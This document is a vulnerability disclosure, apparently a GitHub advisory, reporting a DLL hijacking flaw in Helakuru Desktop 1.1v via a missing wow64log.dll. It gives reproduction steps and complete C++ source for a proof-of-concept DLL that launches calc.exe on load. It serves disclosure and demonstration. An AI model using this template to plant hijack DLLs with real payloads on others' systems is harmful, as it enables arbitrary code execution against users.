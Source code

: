 **DLL Hijacking Vulnerability in Helakuru Desktop**
---

**Summary**

The Helakuru Desktop version operates on both 64-bit and 32-bit architectures. During testing, it was identified that the program attempts to load wow64log.dll, which is missing from the application. This results in a "Name not found" error, exposing the program to a DLL Hijacking vulnerability. By crafting a malicious wow64log.dll, arbitrary code execution can be achieved.

**Affected Version**

Helakuru Desktop 1.1v

**Steps to Reproduce**

1. Monitor DLL Loading with ProcMon
 * ProcMon showing the CreateFile operation with "Name not found" for wow64log.dll
   ![Pasted image 20240925232040](https://github.com/user-attachments/assets/e3f552d8-bb3c-4c61-87ef-8a1dd5fa9bf0)

2. Create a Malicious wow64log.dll
``` C++
#include <windows.h>
#include <stdio.h>

void LaunchCalculator()
{
    STARTUPINFOA si;
    PROCESS_INFORMATION pi;

    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    ZeroMemory(&pi, sizeof(pi));

    const char* calcCmd = "C:\\Windows\\System32\\calc.exe";

    if (!CreateProcessA(
        NULL,          
        (LPSTR)calcCmd, 
        NULL,          
        NULL,          
        FALSE,         
        0,             
        NULL,          
        NULL,          
        &si,           
        &pi))          
    {
        printf("CreateProcess failed (%d).\n", GetLastError());
    }
    else
    {
        WaitForSingleObject(pi.hProcess, INFINITE);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
    }
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        LaunchCalculator();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

3. Run Helakuru Desktop
 * Launch Helakuru Desktop again. The malicious wow64log.dll will now be loaded into the program, triggering the Calculator as a demonstration of successful DLL injection.
 ![Pasted image 20240925233737](https://github.com/user-attachments/assets/d01f179e-e09d-45e1-8b04-2922102f7b69)

4. Verify DLL Load using ProcMon
 * Reopen ProcMon and observe that the wow64log.dll is successfully loaded this time, confirming that the custom DLL has been executed by the program.
   ![Pasted image 20240925232728](https://github.com/user-attachments/assets/985f373f-9e7a-4d4b-b3d3-0bed98710be4)

**Impact**: This vulnerability allows for arbitrary code execution.


